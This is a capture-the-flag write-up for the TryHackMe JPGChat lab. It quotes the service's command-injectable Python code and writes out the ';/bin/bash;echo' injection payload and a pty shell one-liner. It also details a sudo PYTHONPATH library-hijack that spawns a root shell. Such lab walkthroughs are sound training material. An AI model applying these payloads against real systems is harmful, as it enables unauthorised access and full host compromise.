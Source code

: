 ![JPGChat Cover Image](JPGChat.png)
# JPGChat Writeup

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 20:26 GMT
Nmap scan report for 10.10.63.208
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
From the NMAP scan I can see that there is some sort of interactive service running on port 3000. It looks like it could be a messaging service. It also says that the source code of the service can be found on the admin's github. A little bit of searching around and I found [it](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

Theres a snippet in the code that is vulnerable to command injection.

The code:
```
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Looking again at what was returned from the NMAP scan, it gives the user an option to report someone to admins by sending a message saying **[REPORT]** which will call the function **report_form()**. It then prompts the user to enter their name and their report that the admins will read.

It works by directly concatenating the user's input into a system command to echo data into a file, which is run using `os.system()`.

We can exploit this by entering either our name or report information as this command: `;/bin/bash;echo`. This will spawn a shell for us to run any system commands we want.

## Foothold
To interact with the service, I used the netcat command: `nc <ip> 3000`

I then send the message **[REPORT]** and enter a random name, and then the command mentioned above as the report. A shell is spawned and I stabilize the shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.

From the command `whoami`, I can see that I have a shell as the user **wes**. Changing directory into **/home/wes**, I see that there is a file `user.txt` which is the first flag needed for the CTF.

## Privilege Escalation (root)
Running the command `sudo -l` shows me that the user **wes** has access to the **PYTHONPATH** environment variable and can run `/usr/bin/python3 /opt/development/test_module.py` as root with no password.

Reading the source code of `/opt/development/test_module.py` I see that it uses a module named **compare**. As we have access to the **PYTHONPATH** environment variable, we can exploit this using _Python Library Hijacking_. We can create our own **compare.py** file in our home directory, modify the **PYTHONPATH** variable, and this will make the **test_module.py** file import _our_ module and run any code that we write.

### Exploitation
- Create a file named **compare.py** in `/home/wes` containing the code
```
import subprocess
subprocess.call(['/bin/sh', '-i'])
```
This will spawn a shell when the module is imported, and as the command is run using sudo permissions, the module will also be run using sudo permissions, in turn spawning a root shell.

- Then run the command: `export PYTHONPATH=/home/wes` to set the **PYTHONPATH** environment variable to our home directory
- Finally, run the command: `sudo /usr/bin/python3 /opt/development/test_module.py`

SUCCESS! This will import _our_ **compare.py** module, run the code we wrote, and now we have a root shell!

Change directory to `/root` and read the final flag needed for the CTF.

TryHackMe JPGChat: [https://tryhackme.com/room/jpgchat](https://tryhackme.com/room/jpgchat)
